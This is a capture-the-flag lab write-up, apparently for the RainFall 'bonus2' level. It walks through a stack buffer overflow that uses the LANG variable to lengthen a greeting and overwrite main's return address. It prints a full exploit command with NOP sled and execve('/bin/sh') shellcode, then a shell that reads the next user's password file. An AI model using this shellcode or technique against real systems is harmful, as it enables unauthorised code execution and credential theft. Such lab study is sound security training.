

1. We do some trials and errors : we see that 2 arguments are needed, otherwise the program exit:
```
./bonus2 coucou hello
Hello coucou
```

2. First let's look at the state of the stack in greetuser :



3. So we enter 2 arguments to the program. The latter takes at most 40 bytes of our 1st arg and copies them in a buffer, and at most 32 bytes of our 2nd argument, copying it in the same buffer at 40 bytes from the start (so after argv[1])

4. WE can see that the program checks the `LANG` env variable. If `fi`, it sets a global variable to `0x1` and if `nl`, it sets it to `0x2` (cf `memcmp` calls on line <+173> and <+220> in main).

5. Then in `greetuser`, depending on the value of this global variable representing the language, it copies a greeting message (different length depending on the language) in a 72 bytes buffer, and then concatenate to it our buffer given as parameter, up to `\0` or/and 72 bytes maximum.

6. The exploit:
    - The vulnerability comes from the fact that our buffer can be 72 bytes long, and comes after a greeting message in a buffer which is itself 72 bytes long. So `length_of_greeting + 72 bytes buffer` => we can erase following addresses, $ebp value of main but above all **$eip of main**!
    - Hence we need a total size, greetings + buffer, of 72 + 4 bytes for erasing $ebp + 4bytes for erasing $eip with address of our shellcode = `80 bytes`
    - But if we don't have language set to **fi** or **nl**, the greeting message, to which our 72 bytes buffer is appended, is "Hello " which is 6 bytes long. It makes a buffer in greetuser of max 78 bytes, short of 2 bytes from what we need!
    - We can change the `LANG` env variable, and set it for exemple to `nl`, so that we have a greeting message of **13 bytes**, which make the total number of bytes `72 + 13 = 85` which is enough for our attack!

7. Defining the arguments for the exploit:
    - Number of bytes needed to arrive at $eip of main and erase it : **80 bytes**
    - Number of bytes at beginning of buffer for greeting message : **13 bytes**
    - Number of bytes left for our buffer : **80 - 13 = 67 bytes**
    - **40 bytes** will be the first argument, then, out of the **27 bytes** of the second argument, the last 4 are reserved for the address of our shellcode, so we have **23 bytes** remaining for the end of our shellcode.
    - Indeed, as gdb sets some env variables for its usage, the stack address values (level) do not correspond exactly to the stack values when executed outside of gdb. So it is best to start our buffer with as much `NOP (\x90)` instructions as we can, and make the next instruciton of main redirect inside this suite of NOP instructions. It will then skip these instructions up to our shellcode.
    - Length of our shellcode : **45 bytes**
    - argv[2] will then be : `last 23 bytes of shellcode + address inside NOP instructions`
    - argv[1] will be : `40-22=18 NOP instructions + 22 first shellcode bytes`
    - For determining the address in the NOP suite instructions, we `disas main` and see (Line<+71 to 78>) that the 40 bytes of argv[1] are stored at `esp+0x50`. Running `x/wx $esp+0x50` gives us the address of start of buffer **in gdb** (outide gdb, there will be a slight difference of a few bytes) : `0xbffff670`. That is more or less where our NOP suite of instructions will be starting. As we have 18 NOP instructions, we can randomly try with an address 12 bytes further down the stack : `0xbffff67c`


8. The attack and result (don't forget to change the `LANG` env variable!):

```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("\x90"*18 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d")') $(python -c 'print("\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x1c\xf6\xff\xbf")')
Goedemiddag! �������������������^�1��F�F
                                        �
                                         ���V
                                              ̀1ۉ�@̀�����/bin/sh���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```